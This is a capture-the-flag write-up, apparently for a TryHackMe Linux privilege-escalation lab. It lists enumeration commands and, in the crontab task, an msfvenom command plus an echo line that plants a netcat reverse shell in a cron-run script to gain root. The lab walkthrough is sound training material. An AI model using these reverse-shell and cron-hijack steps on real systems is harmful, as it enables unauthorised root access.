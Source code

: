 # Common Linux Privesc Writeup

## [Task 1 - 3]

Follow The Readings Provided

## [Task 4] Enumeration

### 1 SSH into machine with the provided credentials 

username = user3
password = password

- ssh user3@10.10.x.x
![1](https://user-images.githubusercontent.com/69840849/90487228-85318c80-e17d-11ea-97a6-4fae52b8f968.png)

### 2 What is the target's hostname?

- hostname
![1](https://user-images.githubusercontent.com/69840849/90487310-a4c8b500-e17d-11ea-8c13-e124db0080e5.png)
 
### 3 Look at the output of /etc/passwd how many "user[x]" are there on the system?

- cat /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90487951-7f887680-e17e-11ea-9a89-695bbae5f50e.png)

### 4 How many available shells are there on the system?

- cat /etc/shells
![1](https://user-images.githubusercontent.com/69840849/90487873-654e9880-e17e-11ea-930b-d8a76d45b608.png)

### 5 What is the name of the bash script that is set to run every 5 minutes by cron? 

[ ! ] You should be able to find the name of the .sh file
- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 What critical file has had its permissions changed to allow some users to write to it?

- ls -la /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90488017-9929be00-e17e-11ea-8e7b-2a970579333e.png)

### 7 Enumeration Completed

## [Task 5] Abusing SUID/GUID Files
Work In Progress

## [Task 6] Exploiting Writeable /etc/passwd
Work In Progress

## [Task 7] Escaping Vi Editor
Work In Progress

## [Task 8] Exploiting Crontab

### 1 Switch user to User4 with the provided credentials 

username = user4
password = password

- su user4
![1](https://user-images.githubusercontent.com/69840849/90488480-53b9c080-e17f-11ea-8e7b-a8fcd383bbd4.png)

### 2 Msfvenom
-

### 3 What is the flag to specify a payload in msfvenom?

[ ! ] You can find the answer by using 
- msfvenom -h

### 4 Create a payload using: msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R

[ ! ] Reminder, LOCALIP depends on your own machine, I will be using 10.10.0.0 as an example! In this situation, we can use port 8888. We can use another port number such as 1234 as long as the netcat listener is also set to 1234

- msfvenom -p cmd/unix/reverse_netcat lhost=10.10.0.0 lport=8888 R
![1](https://user-images.githubusercontent.com/69840849/90489384-8f08bf00-e180-11ea-9dcc-e3927b6bf169.png)

### 5 What directory is the "autoscript.sh" under?

- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

- echo "mkfifo /tmp/qjqlxog; nc 10.10.0.0 8888 0</tmp/qjqlxog | /bin/sh >/tmp/qjqlxog 2>&1; rm /tmp/qjqlxog" > autoscript.sh


### 7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!

- nc -lnvp 8888
![1](https://user-images.githubusercontent.com/69840849/90490101-895fa900-e181-11ea-8166-ca5a4a637815.png)


### 8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 

[ ! ] You may use the follow to check if it worked
- whoami
![1](https://user-images.githubusercontent.com/69840849/90490473-01c66a00-e182-11ea-88c6-f84af16895ba.png)


## [Task 9] Exploiting PATH Variable
Work In Progress

## [Task 10] Expanding Your Knowledge 

Follow The Readings Provided
